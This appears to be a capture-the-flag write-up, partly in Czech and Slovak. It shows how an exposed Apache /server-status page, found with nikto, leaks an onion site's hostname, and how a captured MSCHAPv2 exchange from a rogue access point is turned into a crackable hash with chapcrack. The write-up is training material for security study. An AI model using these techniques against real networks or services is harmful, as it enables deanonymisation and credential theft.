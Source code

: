 ```bash
+ OSVDB-561: /server-status: This reveals Apache information. bashent out appropriate line in the Apache conf file or restrict access to allowed sources.
May 08 11:10:06.000 [notice] Your system clock just jumped 3170 seconds forward; assuming established circuits no longer work.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8042 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2019-05-08 11:36:40 (GMT-4) (6137 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Check for `OSVDB-561: /server-status` as `nikto` suggested:

```bash
root@kali:~# curl http://127.0.0.1:8000/server-status
```

[Server status](./04/server-status.png ":ignore") site contained hostname ` cardingphorum.com`, just `dig` it and you have the IP address.

Postup 2: Rovno vyskusat znamu chybu adminov Torbrowser -> http://ixbttupkdzeamjjkjyeqwkdmoawirpvxvzez3t5htq2nia24bink53ad.onion/server-status 

---

<details><summary>FLAG:</summary></details>

---

## Úkol č. 5

### Zadání:

U hackované společnosti jsi vytvořil Rogue AP a zachytil níže uvedenou komunikaci. Tajné heslo se shoduje s heslem uživatele **novakp**.

```
mschapv2: Wed Apr 10 19:51:13 2019
     domain\username:     novakp
     username:            novakp
     challenge:           94:0f:90:ec:96:ce:32:ec
     response:            f0:8f:68:d2:29:94:da:62:be:c3:6e:26:b0:b1:1d:81:d9:01:24:73:5d:dd:ba:60
```

---

### Postup řešení

Using [chapcrack tool](https://github.com/moxie0/chapcrack) we convert the MSCHAPv2 challenge / response pair into string in CloudCracker Submission format:

```bash
root@kali:~/chapcrack# ./chapcrack.py radius -C 94:0f:90:ec:96:ce:32:ec -R f0:8f:68:d2:29:94:da:62:be:c3:6e:26:b0:b1:1d:81:d9:01:24:73:5d:dd:ba:60
Cracking K3............
                     C1 = f08f68d22994da62
                     C2 = bec36e26b0b11d81
                     C3 = d90124735dddba60
                      P = 940f90ec96ce32ec
                     K3 = a0b80000000000
CloudCracker Submission = $99$lA+Q7JbOMuzwj2jSKZTaYr7DbiawsR2BoLg=
```
